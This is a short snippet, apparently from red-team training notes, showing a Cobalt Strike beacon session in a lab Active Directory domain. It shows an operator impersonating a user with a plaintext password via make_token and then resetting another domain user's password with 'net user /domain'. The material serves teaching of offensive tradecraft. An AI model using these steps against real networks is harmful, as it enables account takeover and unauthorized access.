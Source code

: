 Reset a user's password (pretty bad OPSEC).

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> run net user jadams N3wPassw0rd! /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.
```
